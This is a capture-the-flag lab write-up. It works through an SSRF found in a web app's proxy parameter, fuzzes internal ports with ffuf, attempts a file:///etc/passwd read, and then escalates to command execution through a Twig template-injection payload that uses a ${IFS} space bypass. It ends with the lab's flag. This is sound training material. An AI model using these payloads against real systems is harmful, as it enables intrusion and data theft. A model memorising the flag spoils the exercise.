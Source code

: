## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![Pasted image 20250212154851.png](../../../IMAGES/Pasted%20image%2020250212154851.png)

Let's begin by checking the page:

![Pasted image 20250212154913.png](../../../IMAGES/Pasted%20image%2020250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![Pasted image 20250212155010.png](../../../IMAGES/Pasted%20image%2020250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs:`["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
 
- For each truck ID, an HTTP request is made to fetch its location.
 

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**: 
 `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`). 
 _(Synchronous requests block the UI until completion, which is generally discouraged.)_
 
- **Request Headers**: 
 Sets`Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
 

---

### **3. Request Handling**

- **POST Data**: 
 Sends the parameter`api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
 
 - `encodeURIComponent("=" + truckID)` ensures the`=` and truck ID are URL-safe (e.g.,`%3DFusionExpress01`).
 
 - Final URL sent to the server:`http://truckapi.htb/?id=FusionExpress01`.
 
- **Server-Side Behavior**: 
 The server likely acts as a proxy, using the`api` parameter to fetch data from the internal`truckapi.htb` endpoint. 
 _(This could introduce SSRF vulnerabilities if the server doesn't validate the URL.)_
 

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
 
 - Parses the response as JSON.
 
 - Displays`data['location']` if available, or`data['error']` if an error is present.
 
- **Failure Case**: 
 Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
 

---

### **5. UI Updates**

- Updates the HTML element with`id=truckID` (e.g.,`<div id="FusionExpress01">`) to show the location/error.
 

---

### **Key Observations**

- **SSRF Risk**: The server trusts the`api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
 
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
 
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
 1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
 2. Server fetches data from `truckapi.htb`
 3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![Pasted image 20250212160205.png](../../../IMAGES/Pasted%20image%2020250212160205.png)

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![Pasted image 20250212160429.png](../../../IMAGES/Pasted%20image%2020250212160429.png)

It went through, what if we point to a closed port:

![Pasted image 20250212160546.png](../../../IMAGES/Pasted%20image%2020250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : POST
 :: URL : http://83.136.252.66:53014/
 :: Wordlist : FUZZ: /home/samsepiol/ports.txt
 :: Header : Host: 83.136.252.66:53014
 :: Header : Content-Type: application/x-www-form-urlencoded
 :: Data : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Regexp: Error \(7\)
________________________________________________

3306 [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80 [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![Pasted image 20250212161958.png](../../../IMAGES/Pasted%20image%2020250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![Pasted image 20250212165927.png](../../../IMAGES/Pasted%20image%2020250212165927.png)

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![Pasted image 20250212170132.png](../../../IMAGES/Pasted%20image%2020250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![Pasted image 20250212170307.png](../../../IMAGES/Pasted%20image%2020250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![Pasted image 20250212170624.png](../../../IMAGES/Pasted%20image%2020250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![Pasted image 20250212170814.png](../../../IMAGES/Pasted%20image%2020250212170814.png)

